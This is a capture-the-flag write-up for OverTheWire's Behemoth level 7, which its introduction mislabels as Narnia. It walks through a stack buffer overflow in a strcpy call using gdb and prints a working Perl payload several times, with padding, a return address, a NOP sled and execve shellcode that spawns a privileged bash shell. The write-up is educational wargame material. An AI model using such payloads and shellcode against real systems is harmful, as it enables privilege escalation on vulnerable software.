

# Behemoth Level - 7

This is an elaborate each level oriented write-up for the Narnia wargame from OverTheWire.org. These challenges provide invaluable hands-on learning experiences in cybersecurity and exploitation techniques. If you find these resources helpful, please consider supporting the OverTheWire team who create and maintain these educational platforms—they're doing important work making security education accessible to everyone.

**`Donate at:`** [https://overthewire.org/information/donate.html](https://overthewire.org/information/donate.html)

---

**`Author:`** Jinay Shah

**`Tools Used:`**

- ltrace
- GDB

---

# TL;DR

**Vulnerability Class:**

Stack-based buffer overflow

**Core Concept:**

Direct control of instruction pointer (EIP) via unchecked stack buffer, enabling raw shellcode execution through precise offset calculation and return address control.

**Methodology:**

- Identified vulnerable **`strcpy()`** call copying user input into a fixed-size stack buffer
- Calculated exact offset required to overwrite saved EIP
- Constructed exploit payload consisting of:
    - padding up to EIP
    - NOP sled
    - manually crafted shellcode
    - overwritten return address pointing back into the sled
- Validated memory layout and offsets during analysis, but executed exploit **outside the debugger** to avoid altered stack behavior

**Final Working Payload**

- User-controlled input exceeding buffer size
- Payload structure:

```
[ padding ][ EIP overwrite ][ NOP sled ][ shellcode ]
```

- Return address chosen to reliably land within the NOP sled under normal execution
- Successful execution resulted in spawning a shell as the next Behemoth user

**FINAL WORKING PAYLOAD:**

```
./behemoth7 $(perl -e 'print "A" x 528 . "\x68\xd1\xff\xff" . "\x90" x 50 . "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"';)
```

**What Actually Mattered:**

- Correct offset to saved EIP
- Little-endian return address placement
- Understanding real stack layout vs debugger-influenced layout
- Shellcode placement and execution flow

**What Didn’t Matter:**

- Overreliance on debugger output
- Tool-generated payloads without understanding
- Over-optimizing shellcode before control was confirmed

**Key Learnings:**

- Classic buffer overflows still demand precision
- Debuggers can mask real execution behavior
- Reliable exploitation requires ownership of stack mechanics
- Manual payload construction builds transferable exploit skill

**Result:**

Level 7 successfully exploited via controlled EIP overwrite and manual shellcode execution.

---

## Level info:

There is no information for this level, intentionally. 

[ It will remain so for all the next stages as well of this wargame series ]

---

## Solution:

Let’s begin with normal execution of our **`./behemoth7`** script and then we will see as to how it behaves:



There are quite some processes running in background let’s look at them closely to see what they are actually trying to achieve and if we can find something of our interest amidst it:

The program is just setting null bytes **`\0`** to each of the mentioned memory locations using **`memset`** and then for a particular length mentioned for each memory address. Interesting.

Let’s attempt parsing an argument to the same:

```
./behemoth7 jynx
```


So it copies the string length “jynx” to memory address → **`0xffffd18c`** and we know from previous OTW wargames and series that ****`strcpy` ****is vulnerable to buffer overflow. 

Let’s analyze the same in debugging mode using **`gdb`**:

```
gdb ./behemoth7
```


Let’s disassemble the main function:

```
disassemble main
```


In the end we see the **`<strcpy@plt>`** function.

Another interesting artefact which will often be overlooked (especially by me) is:

```
0x080492bd <+263>:   lea    -0x20c(%ebp)
```

This is interesting because, actually let’s look at the contents of it first:

```
print (int)0x20c
```


Here interestingly **`x/d 0x20c`** doesn’t work, but **`print (int)0x20c`** works because:

**`p/d 0x20c`** is treated as a memory access attempt, while

**`print (int)0x20c`** is treated as a literal value.

So circling back to our concern, the 524 value we see is actually the length of the buffer for **`strcpy`** function. And what should be the maximum buffer length then?

It should be 524 + 4 [extra byte] = **528** [max buffer].
Anything beyond this will be overwritten.

Let’s test the theory, we need a breakpoint after **`strcpy`** function:

```
break *main+275
```


We shall test this first with a 600 characters long “A” string:

```
run <<echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
```


Okay so the program crashes and buffer overflow does happen; since we receive **`0x41414141`** as a value:


Now let’s test our theory we will use 528 As and 4Bs afterwards to determine the same

```
run <<echo "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB"
```


And it works, since all the return bytes are **`0x42424242`** i.e. the hex value of 4Bs we supplied.

Now we need to exactly on the stack are the 4Bs stored:


$eip is overflown by the value of our parsed 4Bs, and the actual stack address is $eip - 4:

**`0xffffd15c`**

Now then let’s try crafting our payload using Perl:

```
r $(perl -e 'print "A" x 528 . "BBBB"';)
```


So far so good, no syntactical errors till here so we can move forward. Let’s try if it accepts a NOP sled:

```
r $(perl -e 'print "\x90" x 528 . "BBBB"';)
```


It doesn't, let’s try appending some hex code after the buffer overflow- then it should not be a problem ideally at least:

```
r $(perl -e 'print "A" x 528 . "BBBB" . "\x90\x90\x90\x90"';)
```


And this time it is not causing any errors with exit code 1. Wonderful. We can also verify the same if we would like to:

```
(gdb) x/20wx $ebp
```


Okay so since our theory works in effect as well, here’s what we do next- 

1. create a NOP sled
2. insert the address in between NOP sled somewhere [instead of 4-Bs]
3. Finally the shellcode to be executed

We will need a SHELLCODE, I will be using the one that I have been using for a while now, if you have been following my write-ups or walkthroughs enough, you must know by now:

Link to the page:

```
https://shell-storm.org/shellcode/files/shellcode-606.html
```

Shell-hex code:

```
\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80
```


You can choose any other SHELLCODE as well, however ensure that is preserves effective user ID as in: **`bash -p`.**

Back to our payload at hand;

```
r $(perl -e 'print "A" x 528 . "BBBB" . "\x90" x 50 . "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"';)
```

We will also need a return address instead of ‘Bs’ lets go with this one: **`0xffffd178`**


You can choose any in between of/from the NOP sled [of 50 characters in our case].

Turn it into little endian format:

```
\x78\xd1\xff\xff
```

Instill it into our payload:

```
r $(perl -e 'print "A" x 528 . "\x78\xd1\xff\xff" . "\x90" x 50 . "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"';)
```

I will not keep making the same mistake of executing it in debugging mode, lets run it on the local machine/server itself:

```
./behemoth7 $(perl -e 'print "A" x 528 . "\x78\xd1\xff\xff" . "\x90" x 50 . "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"';)
```


Doesn’t work, weird- it should have- let’s tinker with the return address a little;
Let’s try instead of **`\x78\xd1\xff\xff`** → **`\x68\xd1\xff\xff`**:

```
./behemoth7 $(perl -e 'print "A" x 528 . "\x68\xd1\xff\xff" . "\x90" x 50 . "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"';)
```


And there we go it works, this was our final stage…we complete the behemoth series here.


With this we officially conclude the behemoth series…I’ll pretend I did not read the last message from OTW team, I’m sorry- not Sorry 😭

---

## References:

1. YouTube [HMCyberAcademy]:
    
    [https://www.youtube.com/watch?v=H6JTwwKHkvE](https://www.youtube.com/watch?v=H6JTwwKHkvE&t=3520s)
    

---
